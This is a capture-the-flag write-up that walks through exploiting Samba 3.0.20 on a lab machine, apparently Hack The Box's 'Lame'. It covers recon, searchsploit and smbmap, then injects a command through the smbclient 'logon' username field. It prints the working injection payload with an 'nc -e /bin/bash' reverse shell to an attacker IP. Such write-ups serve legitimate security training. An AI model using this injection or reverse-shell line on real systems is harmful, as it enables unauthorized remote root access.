 # Recon

- I'v found that there is 2 open ports with samba service!
1.  139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 
2.  445/tcp  open              syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

- As usual, let's check for vulnerabilities in this Samba version, but this time, we'll use searchsploit tool.
![](../Attachemnts/Pasted%20image%2020231107214258.png)

-  so as we can see, we found a code execution vulnerability in the same samba version 3.0.20.
-  let's use the flag -x in searchsploit to examine the script, and do things manually as usual.
![](../Attachemnts/Pasted%20image%2020231107214530.png)
![](../Attachemnts/Pasted%20image%2020231107215023.png)
-  so as we can see in the payload line : 
  ```
  username = "/=`nohup " + payload.encoded + "`"
  ```
  -  so we will later tweak it a bit to be compatible with our use case.
  1. the nohup used to run commands in background, allowing it to continue running even after you log out of the system.
  2. any command inside backticks char's "\`"  will allow as to use the output of one command as input for another like $().
   ![](../Attachemnts/Pasted%20image%2020231107220445.png)

- Let's utilize the smbmap tool to identify any shared files with accessible permissions, and then try to logon within the samba server and trigger the vuln...
![](../Attachemnts/Pasted%20image%2020231107201954.png)

- as we can see in the screenshot above, we have READ and WRITE permession to tmp directory and with a comment saying oh noes! so let's check it out.
- While attempting to connect to the "tmp" directory via Samba, I encountered a bug, as illustrated in the screenshot below.
![](../Attachemnts/Pasted%20image%2020231107222637.png)
- If you encounter this issue, here's how to resolve it and an explanation for why it happened on this Link :   ``` https://forum.hackthebox.com/t/having-smb-enum-issues-read-this/2369```
 1. Open the smb.conf file located at /etc/samba/smb.conf. If it doesn't exist, create it, and then open it with your preferred text editor.
    ![](../Attachemnts/Pasted%20image%2020231107223106.png)
 2. then add this line and save quit. 
    ```
    client min protocol=NT1
    ```
  ![](../Attachemnts/Pasted%20image%2020231107223418.png)

  ---
# Exploitation


  - and now here we are connection established successfully :
    ![](../Attachemnts/Pasted%20image%2020231107223608.png)
 - Now, let's see if we can execute a command to prompt for input credentials, which will help us inject our payload into the username input.
   ![](../Attachemnts/Pasted%20image%2020231107224045.png)
   -  As shown in the screenshot above, we used the 'help' command to display a list of available commands, and subsequently, we identified the 'logon' command as the means to reach our desired objective.
![](../Attachemnts/Pasted%20image%2020231107231613.png)


- so now the plan is to use the nohup command and the backticks to get shell on the machine in username input filed with a random password when asked.
```
  logon "/=`nohup nc -e /bin/bash 10.10.16.7 443`"
```


- We employed the 'nc' command to establish a connection back to our attacker machine via port 443 with -e flag to execute cmd /bin/bash on the victim machine and send connection back to us, so we need to listen from attacker machine.
![](../Attachemnts/Pasted%20image%2020231107225645.png)

  - Hoorayy!  here we are Root :D 
    ![](../Attachemnts/Pasted%20image%2020231107230824.png)
- no we just need to upgrade the shell with python and find the 2 flags user & root !
![](../Attachemnts/Pasted%20image%2020231107233127.png)

- using find command to get the flags : 
![](../Attachemnts/Pasted%20image%2020231107233443.png)



